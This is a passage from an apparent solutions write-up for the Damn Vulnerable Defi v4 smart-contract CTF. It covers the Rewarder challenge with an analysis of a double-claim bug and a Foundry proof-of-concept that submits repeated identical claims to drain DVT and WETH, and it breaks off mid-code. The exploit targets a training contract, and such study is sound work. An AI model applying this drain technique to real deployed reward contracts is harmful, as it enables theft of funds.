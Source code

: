 ```solidity
    }
}
```

Run `forge test --mp test/side-entrance/SideEntrance.t.sol --isolate` to validate test

---

## 5.THE REWARDER

**Objective**

_from `_isSolved()` in test_

1. _Player saved as much funds as possible, perhaps leaving some dust_
2. _All funds sent to the designated recovery account_

**Attack Analysis**

- The vulnerability exists in the `claimRewards()` function, which processes multiple claims in a single transaction.
- The function transfers rewards for each claim iteration but only marks claims as processed after the final occurrence by calling `_setClaimed()`. This allows malicious actors to submit multiple identical claims, receiving multiple payouts before the system recognizes the claim as processed.
- The exploit requires the attacker to have at least one valid, unclaimed reward and sufficient contract funds for multiple payouts.
- The attack involves creating an array of identical claim objects, calling `claimRewards()` with this array, and immediately withdrawing the exploited funds.

**POC**

See [test/the-rewarder/TheRewarder.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4/blob/master/test/the-rewarder/TheRewarder.t.sol)

```solidity
function test_theRewarder() public checkSolvedByPlayer {
    uint PLAYER_DVT_CLAIM_AMOUNT = 11524763827831882;
    uint PLAYER_WETH_CLAIM_AMOUNT = 1171088749244340;

    bytes32[] memory dvtLeaves = _loadRewards("/test/the-rewarder/dvt-distribution.json");
    bytes32[] memory wethLeaves = _loadRewards("/test/the-rewarder/weth-distribution.json");

    uint dvtTxCount = TOTAL_DVT_DISTRIBUTION_AMOUNT /  PLAYER_DVT_CLAIM_AMOUNT;
    uint wethTxCount = TOTAL_WETH_DISTRIBUTION_AMOUNT / PLAYER_WETH_CLAIM_AMOUNT;
    uint totalTxCount = dvtTxCount + wethTxCount;

    IERC20[] memory tokensToClaim = new IERC20[](2);
    tokensToClaim[0] = IERC20(address(dvt));
    tokensToClaim[1] = IERC20(address(weth));

    // Create Alice's claims
    console.log(totalTxCount);
    Claim[] memory claims = new Claim[](totalTxCount);

    for (uint i = 0; i < totalTxCount; i++) {
        if (i < dvtTxCount) {
            claims[i] = Claim({
                batchNumber: 0, // claim corresponds to first DVT batch
                amount: PLAYER_DVT_CLAIM_AMOUNT,
                tokenIndex: 0, // claim corresponds to first token in `tokensToClaim` array
                proof: merkle.getProof(dvtLeaves, 188) //player at index 188
            });
        } else {
            claims[i] = Claim({
                batchNumber: 0, // claim corresponds to first DVT batch
                amount: PLAYER_WETH_CLAIM_AMOUNT,
                tokenIndex: 1, // claim corresponds to first token in `tokensToClaim` array
```